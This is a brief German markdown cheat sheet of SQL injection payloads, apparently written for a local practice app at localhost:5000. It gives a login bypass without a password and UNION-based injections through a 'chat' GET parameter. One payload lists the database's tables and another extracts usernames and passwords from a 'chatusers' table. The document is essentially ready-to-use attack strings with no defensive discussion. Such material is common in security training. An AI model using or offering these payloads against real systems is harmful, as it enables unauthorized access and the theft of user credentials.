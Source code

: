 # SQL Injection

## SQL Injection für login ohne passwort
`' or '1' = '1`

## SQL Injections im get parameter 'chat' 
http://localhost:5000/?chat=

### Leaken der Datenbanktabellen:
`0) union select 1,1,1,table_name from information_schema.tables;--`

### Leaken der passwörter:
`0) union select 1,1,1,CONCAT(username, " ", password) from chatusers;--`